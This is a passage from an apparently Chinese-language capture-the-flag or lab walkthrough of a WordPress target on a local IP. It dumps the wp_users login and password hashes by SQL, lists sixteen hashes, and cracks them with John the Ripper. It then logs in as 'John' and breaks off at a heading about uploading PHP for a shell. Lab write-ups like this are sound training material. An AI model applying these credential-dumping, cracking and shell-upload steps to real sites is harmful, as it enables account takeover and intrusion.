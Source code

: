 将表中的 user\_login 与 user\_pass 提取出来并导入文件中，使用 john 进行爆破

```plain
select concat(user_login,':',user_pass) from wp_users;
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.    
Elly:$P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0    
Peter:$P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0   
barry:$P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0   
heather:$P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 
garry:$P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1   
harry:$P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0   
scott:$P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1   
kathy:$P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0   
tim:$P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0     
ZOE:$P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1     
Dave:$P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy.    
Simon:$P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0   
Abby:$P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs.    
Vicki:$P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131   
Pam:$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0
```

[![](assets/1699929525-71d7c136419ccc39844ac91174f036fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140216-0867260a-8121-1.png)

得到一些账户和密码

## 获取 shell

### 上传 php

使用用户名 John 与密码 incorrect 进行后台登录：[https://192.168.179.149:12380/blogblog/wp-login.php，进入如下主界面：](https://192.168.179.149:12380/blogblog/wp-login.php%EF%BC%8C%E8%BF%9B%E5%85%A5%E5%A6%82%E4%B8%8B%E4%B8%BB%E7%95%8C%E9%9D%A2%EF%BC%9A)
